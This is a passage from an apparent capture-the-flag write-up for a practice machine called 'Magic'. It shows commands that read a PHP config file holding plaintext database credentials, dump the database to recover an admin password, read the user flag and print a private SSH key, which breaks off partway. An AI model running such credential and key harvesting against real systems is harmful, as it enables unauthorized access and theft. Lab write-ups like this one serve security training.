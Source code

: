 But there was another method for those who just used an authentication bypass
instead of dumping the database.

Find the database credentials:

```
theseus@ubuntu:/var/www/Magic/images/uploads$ ls ../..
assets   images     login.php   sql.php     sql_v3.php
db.php5  index.php  logout.php  sql_v2.php  upload.php

theseus@ubuntu:/var/www/Magic/images/uploads$ cat ../../db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
```

And then dump the database:

```
$ mysqldump --databases Magic -utheseus -piamkingtheseus
...
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
```

And then log in with `su` too.

Then let's loot the flag and copy the private key, so if the box is reset we
can start back from here instead of playing with the reverse shell again.

```
theseus@ubuntu:~$ cat user.txt
1a1fa3ca1d83a1b0dd709cdcbdb15df0

theseus@ubuntu:~$ cat .ssh/id_rsa
```

`.ssh/id_rsa`

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA6ruVQANqao9pxNJ2g5XkHkyMq5zOCoTlJwTVlkO6HS0X9edW
EYbRuvDeBIaG9jQ3S2Kp7wWxKnP9TBU2Yd8sAwdjXN4qa4ePGLiRWaI76A3X5Mtu
TFRzi7/hUrBuO+MhFMgVlkBCDSf9P9JGLFS+9xqAbbi3Jx+MTKjIR7rkkmPJITvj
wuI5h+fGK1e1OkJ8MGjTlDuHWpVHpixgY07shz5FlXsnUx79y7ZSQZu7XZbEgw3I
jnZUppKZKXW2vvswDzRQkbwJnRRVNBIKww6IvDLKS0bdvtrVJEh5g+IJT98TNLV1
eLjVjimmFhv8Zg4YM2cdXtDIUezy+GPgCATbSQIDAQABAoIBAA5cz/MMwnQmtkgO
wKWohD6+XFUb0Refrg3HI/J/zmF+otqu/vsvjqGrn0oTmSpzY3a/YLp5VK/OTQ9c
tOkkKKM+znueNGZD8yOGF46ueI/oWO9s6yDMgg1o/jZ7CSOs8Bc/buK0p9X6Pmqr
SRPpU433FyifhsVkDseaBDcvXlD+oA1AMuoUv7RW+6YEgPLQK+GJqW9qClqJl72A
ZcwLHV2pEDP8q/r5z+6liUWYZSf9VMjtsB7P7DYLatFb/iXPgMzPl3Ee3K69e7vu
0H56M6pFfnwBmi9/j7SfWsOkiNH+SCCi9OIcDnSytW1Qvs5L2su5TQ19A8gZps9x
uOVt4ikCgYEA+RlW8d4QmCGlQD5AdkvxOXHCKkF97z88yRBIfMV+/oNz8IL67QJ2
fJP71SK8/K3xulmSouaMExmd9hD7soLkyNOr5ek0hEZ2tTnlMEGcqvzf/LPeDx7q
eFlxn1Ls+u6Jmbr/gyl6kMzpCia+l5K+Azu4ONLRbTQADPDOg1BFbBsCgYEA8Txa
6VJDR7KyX0165yFReMWz4MuwEyd6kUjjzmSuQn1xWPacUdSxgxqGBGPWx9rFCcMt
tKBhD8HW1RjO0/vi6K5K/Gygr8D2lpDuY+92EhD3FHx2lZveibloMTS0a42ySm4m
dsYuhxnJ26VtN/FnQAXZfRM1B0mALx7qP4h0xGsCgYAyDseMH2YSTGCbAmeN3kEB
nDy6pSKbm4epmB4ZBM86ckwwPwIR8vbAnjRzZmG4HXSAUFPJbK8lf3Zg5pTOEMPN
H8xhjXXCRy6/yHyoL+c97UdNzw+G1l2kBcVxkQaSfrEkNZH3V7SLuMH0CkkuyIxq
teuVb7gqS9Lext2ZQd5RlQKBgGxvl+H3Y1zQO5PRTSSl+mxSWif7Bzuk7FhwLk5x
PU+P+apmuB+kfuKSwpkok7wkX5uiy2G9EcQ2eq4xR49MU1QKPJS484XtNCq8HRx4
4FcAnz/rLpbTiLXZzLcJnOwXtoP0fX+4V+PMuMrt0mlqLuI9fuTVBGoxJNiJifxj
BzHfAoGARjeDy+yQSUUwUbrFMbyWhNnX8fef4h4lGmlZTZTjC5tL1tOQ3/QPvgnp
```